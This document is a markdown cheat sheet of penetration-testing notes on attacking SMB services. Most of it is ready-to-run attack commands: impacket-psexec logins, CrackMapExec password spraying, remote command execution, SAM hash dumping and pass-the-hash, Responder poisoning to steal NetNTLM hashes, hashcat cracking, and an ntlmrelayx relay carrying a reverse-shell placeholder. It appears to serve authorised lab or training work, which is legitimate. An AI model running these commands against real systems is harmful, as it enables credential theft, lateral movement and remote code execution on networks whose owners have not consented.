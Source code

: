 # Attacking common services
- [SMB](#smb)
## SMB

- **Impacket PsExec**
    - To connect to a remote machine with a local administrator account, using impacket-psexec, you can use the following command: `impacket-psexec administrator:'Password123!'@10.10.110.17`

- **CrackMapExec**
    - Password Spraying: `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth`
    - Execute Commands: `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`
    - Extract Hashes from SAM Database: `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`
    - Pass-the-Hash (PtH): `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`


> [!NOTE]
> Using the `--continue-on-success` flag, It will continue spraying even after a valid password is found.
> If we are targeting a non-domain joined computer, we will need to use the option `--local-auth`.

### Forced Authentication Attacks
- We can also abuse the SMB protocol by creating a fake SMB Server to capture users' NetNTLM v1/v2 hashes.
- The most common tool to perform such operations is the Responder. 
- Responder is an LLMNR, NBT-NS, and MDNS poisoner tool with different capabilities, one of them is the possibility to set up fake services, including SMB, to steal NetNTLM v1/v2 hashes.
- **Steps**
    - Creating a fake SMB server using the Responder default configuration, with the following command: `responder -I <interface name>`
    - Crack it using the hashcat module 5600.
    - If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) or [Responder MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py).
        1. We need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf): `cat /etc/responder/Responder.conf | grep 'SMB ='`
        2. We execute impacket-ntlmrelayx with the option `--no-http-server`, `-smb2support`, and the target machine with the option `-t`: `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`
        3. We can execute commands by adding the option `-c` and get a [reverse shell](https://www.revshells.com/): `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'REV_SHELL'`
